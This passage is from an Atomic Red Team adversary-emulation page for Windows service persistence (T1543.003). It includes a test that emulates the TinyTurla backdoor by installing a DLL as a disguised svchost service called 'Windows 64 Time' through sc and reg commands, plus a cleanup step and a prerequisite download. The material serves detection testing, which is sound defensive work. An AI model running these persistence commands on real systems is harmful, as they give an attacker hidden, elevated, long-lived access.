 ```powershell
Stop-Service -Name "#{service_name}" 2>&1 | Out-Null
try {(Get-WmiObject Win32_Service -filter "name='#{service_name}'").Delete()}
catch {}
```

#### Dependencies: Run with `powershell`!

##### Description: Service binary must exist on disk at specified location (#{binary_path})

##### Check Prereq Commands:

```powershell
if (Test-Path "#{binary_path}") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory (split-path "#{binary_path}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1543.003/bin/AtomicService.exe" -OutFile "#{binary_path}"
```

<br/>
<br/>

## Atomic Test #4 - TinyTurla backdoor service w64time

It's running Dll as service to emulate the TinyTurla backdoor

[Related Talos Blog](https://blog.talosintelligence.com/2021/09/tinyturla.html)

**Supported Platforms:** Windows

**auto_generated_guid:** ef0581fd-528e-4662-87bc-4c2affb86940

#### Inputs:

| Name        | Description                             | Type   | Default Value                                              |
| ----------- | --------------------------------------- | ------ | ---------------------------------------------------------- |
| dllfilename | It specifies Dll file to run as service | string | $PathToAtomicsFolder&#92;T1543.003&#92;bin&#92;w64time.dll |

#### Attack Commands: Run with `command_prompt`! Elevation Required (e.g. root or admin)

```cmd
copy "#{dllfilename}" %systemroot%\system32\
sc create W64Time binPath= "c:\Windows\System32\svchost.exe -k TimeService" type= share start=auto
sc config W64Time DisplayName= "Windows 64 Time"
sc description W64Time "Maintain date and time synch on all clients and services in the network"
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Svchost" /v TimeService /t REG_MULTI_SZ /d "W64Time" /f
reg add "HKLM\SYSTEM\CurrentControlSet\Services\W64Time\Parameters" /v ServiceDll /t REG_EXPAND_SZ /d "%systemroot%\system32\w64time.dll" /f
sc start W64Time
```
